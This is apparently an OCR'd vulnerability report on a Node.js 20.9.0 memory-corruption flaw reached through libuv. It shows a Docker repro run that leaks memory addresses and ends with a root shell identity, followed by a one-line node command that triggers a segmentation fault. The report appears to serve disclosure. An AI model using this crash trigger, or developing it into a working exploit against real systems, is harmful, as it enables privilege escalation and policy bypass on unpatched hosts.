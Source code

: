 ```text
$ ./run.sh
[+] Building 0.0s (7/7) FINISHED                                                                                                                                                         docker:default
 => [internal] load .dockerignore                                                                                                                                                                  0.0s
 => => transferring context: 2B                                                                                                                                                                    0.0s
 => [internal] load build definition from Dockerfile                                                                                                                                               0.0s
 => => transferring dockerfile: 592B                                                                                                                                                               0.0s
 => [internal] load metadata for docker.io/library/node:20.9.0-alpine3.17@sha256:b82ef5b38a306323dfcce05eb0d60bc568d7cf69967afb21bd42d7deaecd558e                                                  0.0s
 => [internal] load build context                                                                                                                                                                  0.0s
 => => transferring context: 2.10kB                                                                                                                                                                0.0s
 => [1/2] FROM docker.io/library/node:20.9.0-alpine3.17@sha256:b82ef5b38a306323dfcce05eb0d60bc568d7cf69967afb21bd42d7deaecd558e                                                                    0.0s
 => CACHED [2/2] COPY code.js policy.json /                                                                                                                                                        0.0s
 => exporting to image                                                                                                                                                                             0.0s
 => => exporting layers                                                                                                                                                                            0.0s
 => => writing image sha256:b8194f61f74b5dcaa9cca0ecb47d102b9db14dc9285b7443a1c0f3b017285b1a                                                                                                       0.0s
 => => naming to docker.io/library/repro                                                                                                                                                           0.0s
buf:  0x7fe5a0a297c0
musl: 0x7fe5a3702000
go!
done!
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

{F2874191}

## Analysis:

This is a step-by-step in-depth analysis of the exploit.

1. Triggering the libuv crash

We first identify the vulnerability by triggering a crash from libuv. Running the following immediately yields a crash (if the host supports io_uring). If not, try it with `11` instead of `15` for the first argument (if host does not support io_uring, 4 fds not opened).

```text
$ node --version
v20.9.0
$ node -e 'process.stdout.constructor(15); process.stdout.write(new Uint8Array(new BigUint64Array([0x133700000000n, 0x133800000000n]).buffer));'
Segmentation fault (core dumped)
```

